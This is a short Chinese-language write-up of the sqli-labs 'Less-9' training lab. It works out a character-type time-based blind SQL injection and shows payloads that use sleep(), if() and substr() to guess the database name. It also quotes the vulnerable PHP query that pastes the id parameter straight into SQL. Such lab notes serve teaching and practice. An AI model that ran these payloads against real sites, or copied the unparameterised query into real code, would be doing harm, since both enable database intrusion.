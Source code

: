# Less-9

## 0x00 注入

加单引号，双引号，括号，都显示一个内容。错误回显和正常回显内容一致。

时间盲注。

?id=1 and sleep(5) 无延时

?id=1' and sleep(10) and '1'='1 有延时

?id=1' and sleep(10) and '1'='2 无延时

确定是字符型的时间盲注

猜数据库名称

?id=1'  and length(database())=8 and sleep(5)--+ 有延时

?id=1'  and if(length(database())=8, sleep(5), 1)--+

?id=1' and if(substr(database(), 1, 1)='s', sleep(5), 1)--+

可以用bp爆破，有延时的response的length会比其他的不同。

很奇怪，5秒的延时，bp接受到状态码200的速度却非常快。似乎5秒的延时对bp没有影响。

## 0x01 分析

时间盲注和布尔盲注类似。



```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
        }
        else
        {

        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        //print_r(mysql_error());
        //echo "You have an error in your SQL syntax";
        echo "</br></font>";
        echo '<font color= "#0000ff" font size= 3>';

        }
}
```
